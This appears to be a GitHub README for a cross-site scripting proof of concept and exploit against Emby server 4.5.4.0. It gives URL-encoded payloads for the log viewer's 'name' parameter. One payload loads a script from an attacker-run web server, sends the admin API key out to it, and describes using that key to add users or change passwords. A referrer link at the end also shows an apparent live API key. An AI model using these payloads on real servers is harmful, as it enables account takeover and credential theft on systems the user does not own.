# Emby-4.5.4.0-xss-poc

1.Browse emby server url :**"http://192.168.201.3:8096/web/index.html#!/log?name=embyserver.txt"** which can show you the log files.

2.Edit param "name" as **"%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%31%29%3e"**, urldecoded as "\<img src=x onerror=alert(1)\>"

3.Url will be **"http://192.168.201.3:8096/web/index.html#!/log?name=%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%31%29%3e"**

3.Browse the edited url and webpage will show an alert dialog (U may have to refresh 2-3 times).

# Emby-4.5.4.0-xss-steal-admin-api-exp

1.Put emby.js in directory and run "python -m SimpleHTTPServer" to run a web server.

2.Edit param "name" as **"%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%64%6f%63%75%6d%65%6e%74%2e%62%6f%64%79%2e%61%70%70%65%6e%64%43%68%69%6c%64%28%64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%27%73%63%72%69%70%74%27%29%29%2e%73%72%63%3d%27%2f%2f%31%32%37%2e%30%2e%30%2e%31%2f%65%6d%62%79%2e%6a%73%27%3e"**

3.Browse the edited url and page will load emby.js from SimpleHTTPServer and send the api value to SimpleHTTPServer.

![image](https://raw.githubusercontent.com/EstamelGG/emby-4.5.4.0-xss-exp/main/WX20210128-174426%402x.png)

4.You can use admin api to add user or change password or any thing need privilege. 

# Referrer: 

http://swagger.emby.media/?url=http://192.168.201.3:8096/emby/openapi&api_key=902c563ed3184ff4b1492aca4a5644de#/
